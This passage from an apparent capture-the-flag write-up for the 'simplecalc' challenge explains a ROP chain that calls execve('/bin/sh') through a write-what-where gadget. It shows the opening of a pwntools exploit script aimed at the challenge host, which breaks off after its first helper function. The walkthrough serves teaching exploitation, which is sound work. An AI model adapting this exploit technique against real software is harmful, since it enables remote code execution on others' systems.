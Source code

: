 To get code execution we construct a ROP chain to make syscall to `execve("/bin/sh",NULL,NULL)`. As the binary is statically linked we have a lot of gadgets, and we can easily pop arbitrary values into most registers. Furthermore, we have a write-what-where gadget we can use to write memory:

```
0x000000000044526e : mov qword ptr [rax], rdx
```

### Exploit

The exploit makes use of a ROP chain to write `/bin/sh\x00` to a writeable location in memory using the write-what-where gadget, loads `rdi` with the string pointer, resets registers `rdx` and `rsi`, and finally makes the syscall. When the option `Save and Exit` is chosen, the program will give us a shell on the remote system.

{% highlight python %}
#!/usr/bin/env python2
from pwn import *
from pwnlib.constants import *

#######################################
# Init
#######################################

LOCAL = not args["REMOTE"]
GDB = args["GDB"]
QIRA = args["QIRA"]

context(arch = "amd64", os = "linux")
#context.log_level = "debug"

if QIRA:
    p = remote("localhost",4000)
elif LOCAL:
    p = process("./b28b103ea5f1171553554f0127696a18c6d2dcf7")
    if GDB:
        gdb.attach(p,"""
        b *0x401589
        c
        """)
else:
    p = remote("simplecalc.bostonkey.party", 5400)

#######################################
# Helper functions
#######################################

def send32(data):
    """Use addition to store data on the stack"""
    assert len(data) == 4
    p.sendline("1")

    # Program doesn't allow us to calculate the sum of small
    # numbers. But we need to be able to get a sum of 0
    # for heap_results - so we force integer overflow
    p.recvuntil(": ")
    p.sendline(str(0x7FFFFFFFFFFFFFFF-0xFFFF))
    p.recvuntil(": ")
    p.sendline(str(u32(data)+0xFFFF+1))
    
    p.recvuntil("=> ")
